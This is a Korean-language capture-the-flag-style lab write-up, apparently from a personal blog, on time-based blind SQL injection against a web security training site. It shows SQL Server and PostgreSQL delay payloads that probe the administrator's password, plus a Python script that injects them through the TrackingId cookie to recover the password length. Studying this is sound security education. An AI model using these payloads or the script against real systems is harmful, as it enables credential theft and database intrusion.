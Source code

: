 시간 지연을 발생시키는 기술은 사용 중인 데이터베이스의 종류에 따라 특정된다. 예를 들어, Microsoft SQL Server에서 조건문을 테스트하고 표현식이 참인지에 따른 시간 지연을 발생하기 위해 위와 같은 페이로드를 사용할 수 있다.

- 첫 번재 입력은 지연을 발생시키지 않는데, `1=2`가 거짓이기 때문이다.
- 두 번째 입력은 10초의 지연을 발생시키는데, `1=1`이 참이기 때문이다.

<br>

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

이 기술을 사용하면 우리는 한 번에 한 문자씩 테스트함으로써 데이터를 조회할 수 있다.

<br>

## 🚩Lab: Blind SQL injection with time delays and information retrieval

이 랩에서는 이전 랩들과 마찬가지로 `TrackingId` 쿠키 값에 SQL 인젝션을 시도하는 문제이다. 그러나 이전 문제들과는 다르게 삽입된 값으로 인해 구성된 SQL문의 결과가 에러를 발생할 때 웹 사이트에 변화를 주지 않는다. 여기서는 Time-based SQL injection을 시도해보자.

<br>

`abc' %3b SELECT CASE WHEN username='administrator' AND length(password) = 1 THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --`

해당 서비스는 PostgreSQL 데이터베이스를 사용하므로 `pg_sleep()` 함수를 사용하여 페이로드를 구성하였다. `%3b`는 `;`을 url 인코딩 한 값이다. 만약 이 쿠키 값을 포함하여 요청을 보냈을 때 요청에 대한 응답이 오기까지 5초 가량이 소요된다면 이는 조건문인 `length(password) = 1`가 참이라는 것을 알 수 있다. 이를 이용하여 Python 코드를 작성해보자.

<br>

```python
import requests, time

url = 'https://0af3004e040a35fc82dc7e0300cf0080.web-security-academy.net/'
len = 1

while True:
    headers={"Cookie": f"TrackingId=abc' %3b SELECT CASE WHEN username='administrator' AND length(password) = {len} THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users --"}

    start_time = time.time()
    response = requests.get(url, headers=headers)
    print(len)

    if time.time() - start_time >= 5:
        print(f"Length of password is {len}")
        break
    else:
        len += 1
```

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/87655709-0211-49d3-b9b1-6db44d2fb638)

코드를 실행하면 위와 같이 패스워드의 길이가 20인 것을 알아낼 수 있다.
